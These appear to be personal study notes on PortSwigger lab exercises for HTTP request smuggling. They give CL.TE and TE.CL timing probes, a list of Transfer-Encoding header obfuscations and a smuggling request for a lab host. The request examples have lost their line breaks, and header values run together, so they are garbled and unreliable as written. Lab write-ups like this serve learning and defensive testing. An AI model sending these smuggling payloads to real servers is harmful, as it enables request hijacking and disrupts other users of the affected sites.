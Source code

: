 ### **first make sure that request attripute is** `**HTTP/1**`

- [**HTTP request smuggling, basic CL.TE vulnerability**](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)
    
    If an application is vulnerable to the CL.TE variant of request smuggling, then sending a request like the following will often cause a time delay:
    
    ```
    POST / HTTP/1.1Host: vulnerable-website.comTransfer-Encoding: chunkedContent-Length: 41AX
    ```
    
    Since the front-end server uses the `Content-Length` header, it will forward only part of this request, omitting the `X`. The back-end server uses the `Transfer-Encoding` header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.
    
- [**HTTP request smuggling, basic TE.CL vulnerability**](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)
    
    If an application is vulnerable to the TE.CL variant of request smuggling, then sending a request like the following will often cause a time delay:
    
    ```
    POST / HTTP/1.1Host: vulnerable-website.comTransfer-Encoding: chunkedContent-Length: 60X
    ```
    
    Since the front-end server uses the `Transfer-Encoding` header, it will forward only part of this request, omitting the `X`. The back-end server uses the `Content-Length` header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.
    
    ### **Note**
    
    The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.
    
- [**HTTP request smuggling, obfuscating the TE header**](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)
    
    There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:
    
    ```
    Transfer-Encoding: xchunkedTransfer-Encoding : chunkedTransfer-Encoding: chunkedTransfer-Encoding: xTransfer-Encoding:[tab]chunked[space]Transfer-Encoding: chunkedX: X[\n]Transfer-Encoding: chunkedTransfer-Encoding: chunked
    ```
    
    In Burp Suite, go to the Repeater menu and ensure that the "`Update Content-Length`" option is unchecked.
    
    Using Burp Repeater, issue the following request twice:
    
    ```
    POST / HTTP/1.1Host: 0a3400f0032f7a9883d3f5e1002a0063.web-security-academy.netConnection: keep-aliveContent-Type: application/x-www-form-urlencodedContent-length: 4Transfer-Encoding: chunkedTransfer-encoding: cow5cGPOST / HTTP/1.1Content-Type: application/x-www-form-urlencodedContent-Length: 15x=10
    ```
    